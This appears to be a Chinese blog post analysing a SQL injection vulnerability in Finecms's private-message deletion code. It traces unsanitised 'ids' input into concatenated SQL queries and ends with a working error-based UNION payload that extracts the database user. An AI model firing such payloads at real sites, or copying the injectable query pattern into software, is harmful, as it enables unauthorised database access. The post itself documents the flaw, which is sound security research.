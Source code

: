 ```yaml
---
layout: post
title:  "Finecms SQL injection"
date:   2016-11-14 18:04:55
comments: true
categories: php bug
---
```

位置
{% highlight text %}
\member\controllers\Pm.php
{% endhighlight %}

控制器pm的index方法 ，调用了deletes 方法 ，并通过post方式传入参数ids

{% highlight php %}
public function index() {
if (IS_POST) {
if ($this->input->post('action') == 'read') {
$this->pm_model->set_read($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
} else {
$this->pm_model->deletes($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
}
}

{% endhighlight %}

跟踪deletes
{% highlight text %}
\member\models\Pm_model.php
{% endhighlight %}

此模型类的函数，调用了delete_by_plid
{% highlight php %}
public function deletes($uid, $plids, $isuser = 0) {
if ($plids) {
foreach($plids as $plid) {
$this->delete_by_plid($uid, $plid, $isuser);
}
}
return 1;
}
{% endhighlight %}

继续看delete_by_plid ，最终进行带入SELECT 查询

{% highlight php %}

public function delete_by_plid($uid, $plid, $isuser = 0) {
if (!$uid || !$plid) {
            return NULL;
        }
if ($isuser) {
$relationship = $this->_relationship($uid, $plid);
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE min_max='$relationship'";
} else {
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$plid'";
}
$list = $this->db->query($sql)->row_array();
if ($list) {
$user = explode('_', $list['min_max']);
if (!in_array($uid, $user)) {
                return NULL;
            }
} else {
return NULL;
}
$msg_table = $this->db->dbprefix($this->_pm_tablename($list['plid']));
if ($uid == $list['authorid']) {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=2");
$this->db->query("UPDATE ".$msg_table." SET delstatus=1 WHERE plid='$list[plid]' AND delstatus=0");
} else {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=1");
$this->db->query("UPDATE ".$msg_table." SET delstatus=2 WHERE plid='$list[plid]' AND delstatus=0");
}
$count = $this->db->where('plid', $list['plid'])->count_all_results($msg_table);
if(!$count) {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_indexes')." WHERE plid='$list[plid]'");
} else {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]' AND uid=$uid");
}
return 1;
}
{% endhighlight %}

##复现漏洞
{% highlight text %}
http:///member/index.php?c=pm&m=index

action=&ids%5B%5D=1' union select 1 from (select count(*),concat(floor(rand(0)*2),(select user() limit 0,1))a from information_schema.tables group by a)b#

{% endhighlight %}
